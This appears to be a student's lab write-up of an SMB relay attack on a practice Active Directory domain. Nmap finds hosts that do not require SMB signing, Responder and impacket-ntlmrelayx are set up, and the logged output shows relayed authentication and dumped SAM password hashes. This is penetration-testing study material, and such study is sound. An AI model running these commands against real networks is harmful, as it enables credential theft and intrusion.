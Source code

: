 #smbrelayattack
#smbsigningdisabled
## SMB Relay Attacks Lab

1. Identify the host without SMB signing enabled
Command: `nmap script=smb2-security-mode.nse -p445 192.168.64.0/24 -Pn | grep not`

`-Pn` - Treats all hosts as online, skipping host discovery. This is useful if you know the host is up but it isn't responding to ICMP echo requests (ping).


Here is the result

- For the domain controller, we cannot take advantage and use the SMb relay attack because **Message signing is enabled and required** 

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.250 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.250
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 16:91:DE:D1:61:68 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds

```

- For the two domain computers joined to the Domain controller (192.168.64.220 and 192.168.64.221) an SMb relay attack can be executed because **Message signing is enabled but not required**. Please see below

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.220 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.220
Host is up (0.0011s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 4E:4F:0D:0B:16:40 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.221 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 17:00 PDT
Nmap scan report for 192.168.64.221
Host is up (0.0074s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 8E:27:0F:FF:34:D1 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
 
```


2. After we identified the targets, put it in text file targets.txt

![[Pasted image 20240714202517.png]]

3. Change the responder configuration file to **SMB=OFF and HTTP=OFF**
`sudo mousepad /etc/responder/Responder.conf`

![[Pasted image 20240714202746.png]]

Check if they are off by running the command `sudo responder -I eth0 -dwPv`

4. Setup ntlmrelayx while the responder is running

	- If you have pimpmykali installed, just use ntmrelay
	- If you haven't pimpmykali, you can use the impacket-ntmlrelayx - newer version but not sure if it will work

```
impacket-ntlmrelayx -tf targets.txt smb2support
```

```
┌──(kali㉿kali)-[~]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Execute the smb


![[Pasted image 20240714210802.png]]

We can't access smb but we captured the logs and has in kali

![[Pasted image 20240714222330.png]]

```
┌──(kali㉿kali)-[~]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] Received connection from MARVEL/fcastle at PUNISHER, connection will be relayed after re-authentication
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@192.168.64.220 controlled, attacking target smb://192.168.64.220
[*] Authenticating against smb://192.168.64.221 as MARVEL/FCASTLE SUCCEED
[*] SMBD-Thread-6 (process_request_thread): Connection from MARVEL/FCASTLE@192.168.64.220 controlled, attacking target smb://192.168.64.220
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[-] Authenticating against smb://192.168.64.220 as MARVEL/FCASTLE FAILED
[*] Target system bootKey: 0xcabc660ecd3b48764bce94bc0b8bf0be
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e7ec10dcc923609de4e827dd59da5683:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:dceeee34db21ea54de36c6a0b88c9843:::
[*] Done dumping SAM hashes for host: 192.168.64.221
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry

```
